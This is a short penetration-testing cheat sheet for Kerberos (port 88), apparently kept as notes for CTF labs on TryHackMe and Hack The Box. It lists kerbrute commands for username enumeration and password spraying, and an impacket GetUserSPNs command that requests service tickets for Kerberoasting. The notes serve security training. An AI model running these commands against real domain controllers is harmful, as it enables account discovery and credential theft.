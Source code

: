 # 88 (Kerberos)

## Enumeration

### Authenticated

#### Kerbrute

```bash
/opt/kerbrute/kerbrute_linux_amd64 userenum --dc 10.10.86.5 -d lab.enterprise.thm /opt/SecLists/Usernames/xato-net-10-million-usernames.txt -o users.txt
/opt/kerbrute/kerbrute_linux_amd64 passwordspray --dc <IP> -d intelligence.htb users.txt <password>
```

GetUserSPNs

```
kali@kali:~/ctf/tryhackme/enterprise$ python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -request -dc-ip 10.10.55.72 LAB.ENTERPRISE.THM/nik
```
